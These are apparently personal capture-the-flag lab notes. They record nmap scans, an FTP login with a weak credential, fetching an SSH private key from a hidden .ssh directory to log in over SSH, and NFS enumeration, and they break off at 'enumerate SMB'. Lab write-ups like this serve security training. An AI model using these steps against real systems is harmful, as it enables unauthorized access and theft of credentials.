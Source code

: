 
Easy lab
- nmap -p- T4 --min-rate=1000 IP
	- 21/tcp open ftp
	- 22/tcp open ssh
		- OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
	- 53/tcp open domain
		- ISC BIND 9.16.1 (Ubuntu Linux)
	- 2121/tcp open ccproxy-ftp
- 21 ftp
	- ceil:qwer1234 works
		- Nothing listed
- 2121 ftp
	- ceil:qwer1234 works
		- ls -> nothing
		- but ls -al shows more!
			- .ssh directory
		- get id_rsa
		- get id_rsa.pub
		- get authorized_keys
- 22 open ssh
	- ssh -v ceil@10.129.64.132
		- public key only, password don't work
	- can login as ceil with the id_rsa file we downloaded from ftp
		- ssh ceil@10.129.64.132 -i id_rsa
	- then cat the flag


Medium lab
- nmap scan
111/tcp   open  rpcbind       2-4 (RPC #100000)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
2049/tcp  open  nlockmgr      1-4 (RPC #100021)
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49679/tcp open  msrpc         Microsoft Windows RPC
49680/tcp open  msrpc         Microsoft Windows RPC
49681/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows


After running with -sV

111, 2049 -> NFS
135,445 -> SMB
the rest -> microsoft remote management

enumerate NFS
- showmount -e 10.129.198.248
	- /TechSupport
- mount the share
	- mkdir target-NFS
	- sudo mount -t nfs 10.129.198.248:/ ./target-NFS/ -o nolock
		- no permission

enumerate SMB
